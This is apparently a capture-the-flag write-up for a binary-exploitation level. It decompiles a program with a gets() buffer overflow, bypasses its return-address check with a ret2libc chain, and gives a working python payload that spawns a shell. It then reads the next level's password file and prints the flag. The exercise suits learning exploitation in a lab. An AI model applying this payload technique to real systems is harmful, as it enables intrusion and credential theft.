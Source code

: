 get the binary on host
* `scp -P 4242 level2@192.168.56.107:./level2 ./binary/level2`

decompile using ghidra

we can use a buffer overflow to run a sh, but we can't pass hexa starting at \xbZ (no Z is valide)
```
	void p(void)
	{
		uint unaff_retaddr;
		undefined local_50 [76];
		
		fflush(stdout);
		gets(local_50);
		if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
			printf("(%p)\n",unaff_retaddr);
							/* WARNING: Subroutine does not return */
			_exit(1);
		}
		puts(local_50);
		strdup(local_50);
		return;
	}
```
To bypass the check, we will add the address of return of function before our payload
* `/bin/sh` => 0xb7 f8 cc 58\
* `system`  => 0xb7 e6 b0 60\
* `exit`    => 0xb7 e5 eb e0\
* `p ret`   => 0x08 04 85 3e\

Using our 80 char array + thoose address we can lauch a new shell.\
This array is `80 char` + `p ret` + `addr system` + `addr exit` + `addr "/bin/sh"`\
`python -c 'print "a"* 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"' > /tmp/exploit_2; cat /tmp/exploit_2 - | ./level2`\
We can input our cat
* `cat /home/user/level3/.pass`\
* and get the pass `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`